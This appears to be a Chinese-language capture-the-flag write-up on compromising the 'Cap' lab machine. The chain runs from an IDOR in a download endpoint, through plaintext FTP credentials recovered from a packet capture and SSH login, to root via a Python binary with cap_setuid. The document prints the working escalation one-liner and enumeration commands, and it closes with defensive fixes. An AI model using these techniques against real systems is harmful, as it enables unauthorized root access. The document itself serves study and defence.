



# 260709 Cap 靶场服务器提权总结

## 一、实践目标

本次实践围绕 Cap 靶机完成一次从信息收集到本地提权的完整流程。核心链路如下：

```text
确认靶机地址 -> Web 下载功能抓包 -> 修改下载编号获取历史流量包 -> 分析 FTP 明文凭据
-> SSH 登录普通用户 -> 获取 user flag -> 枚举本地提权点 -> 利用 Python capabilities 提权
```

## 二、靶机信息确认

首先确认靶机 IP 地址，并围绕目标服务进行访问和枚举。



本次目标服务器为：

```text
10.129.2.82
```

## 三、下载功能抓包与越权读取

在 Web 页面中发现下载入口，对下载操作进行抓包。


抓包后观察到下载资源使用了类似 `Download1` 的编号形式。将请求中的 `Download1` 修改为 `Download0` 后，可以下载到另一个抓包文件。


这里的关键点是 IDOR，也就是不安全的直接对象引用：

```text
服务端用可预测的编号区分下载资源，但没有验证当前用户是否有权限访问该编号对应的文件。
```

因此，当请求从 `Download1` 被手工改成 `Download0` 时，服务端仍然按编号返回对应文件，导致本不该直接访问的历史流量包被下载。

这类问题的本质不是“前端按钮可改”，而是服务端权限校验缺失。即使页面上只显示一个下载入口，只要后端接口接受可预测 ID，攻击者就可以尝试横向枚举其他资源。

## 四、流量包分析重点

下载到的流量包中包含多种协议，例如 TCP、HTTP、FTP。分析时不需要平均用力，应优先关注可能泄露认证信息的明文应用层协议。

TCP 是传输层协议，主要体现连接建立、数据传输和关闭过程，本身通常不直接表达业务账号密码。HTTP 是否值得深入看，取决于是否出现登录请求、Cookie、Token 或敏感接口。本次关键凭据不在 HTTP 中，因此无需把主要时间放在 TCP 和 HTTP 内容上。

FTP 是本次重点，因为传统 FTP 默认明文传输控制命令，用户名和密码会直接出现在控制连接里。过滤 FTP 流量后，可以看到登录过程中的 `USER` 和 `PASS`。

## 五、FTP 明文凭据提取

在 FTP 流量中提取到普通用户用户名：



继续查看 FTP 登录命令，提取到对应密码：



这一步说明服务器历史流量包中泄露了可用于登录系统的有效凭据。FTP 明文传输是风险根源，抓到流量后可以直接还原认证信息。

## 六、SSH 登录与 user flag

使用流量包中获得的凭据通过 SSH 登录目标服务器：

```bash
ssh nathan@10.129.2.82
```

登录后确认当前身份：

```bash
id
```

结果为普通用户：

```text
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

随后在用户目录读取 user flag：

```bash
cat user.txt
```

至此完成普通用户权限获取。

## 七、本地提权枚举

先检查 sudo 权限：

```bash
sudo -l
```

返回结果：

```text
Sorry, user nathan may not run sudo on cap.
```

说明无法通过 sudo 直接提权。

继续枚举 SUID 文件：

```bash
find / -perm -4000 -type f 2>/dev/null
```

未发现明显异常 SUID 程序。随后枚举 Linux capabilities：

```bash
getcap -r / 2>/dev/null
```

发现关键配置：

```text
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

## 八、Capabilities 提权原理与利用

Linux capabilities 用于把 root 的权限拆分成更细粒度的能力。`cap_setuid` 允许程序调用 `setuid()` 改变自身 UID。

正常情况下，普通用户进程不能把 UID 改成 `0`。但目标机错误地给 `/usr/bin/python3.8` 授予了 `cap_setuid`，因此普通用户可以借助 Python 执行 `os.setuid(0)`，把当前进程切换为 root。

利用命令：

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'
```

命令含义：

```text
os.setuid(0)        将 Python 进程 UID 设置为 root
/bin/bash -p        启动保留特权的 bash shell
```

执行后提示符变为：

```text
root@cap:~#
```

说明已经获得 root 权限。需要注意，提示符变为 root 不代表当前目录就是 `/root`。当时仍位于 `/home/nathan`，所以 `ls` 只能看到：

```text
linpeas.sh  snap  user.txt
```

应进入 root 目录读取 root flag：

```bash
cd /root
cat root.txt
```

或直接执行：

```bash
cat /root/root.txt
```

## 九、漏洞链总结

本次靶场不是单点漏洞，而是一条连续攻击链：

```text
1. Web 下载接口存在 IDOR，可通过修改 Download 编号获取其他流量包。
2. 历史流量包中包含 FTP 明文认证过程，泄露 nathan 用户凭据。
3. SSH 允许使用该凭据登录服务器，获得普通用户 shell。
4. 服务器错误地给 python3.8 配置 cap_setuid。
5. 普通用户利用 Python 调用 setuid(0)，启动保权 shell，完成 root 提权。
```

## 十、防御建议

下载接口应在服务端做严格权限校验，不能依赖可预测编号或前端控制。即使用户知道资源 ID，也必须验证其是否有权访问。

敏感流量、抓包文件、日志和备份文件不应放在普通 Web 功能可访问的位置，更不能包含明文凭据。

FTP 应替换为 SFTP 或 FTPS，避免用户名和密码在网络中明文传输。

服务器应定期检查异常 capabilities：

```bash
getcap -r / 2>/dev/null
```

发现 Python、bash、perl、ruby 等解释器具有危险 capability 时，应及时移除：

```bash
setcap -r /usr/bin/python3.8
```

## 十一、实践收获

本次实践加深了三个关键认识：

```text
1. 越权漏洞的重点在服务端权限校验，不在前端入口是否可见。
2. 明文协议一旦进入抓包或日志，就可能直接变成可复用凭据。
3. 本地提权不只依赖 sudo 和 SUID，Linux capabilities 也是高价值枚举项。
```

最终完成路径：

```text
Download1 -> Download0 -> FTP 凭据泄露 -> SSH 登录 nathan -> getcap 发现 python3.8 cap_setuid -> root shell
```
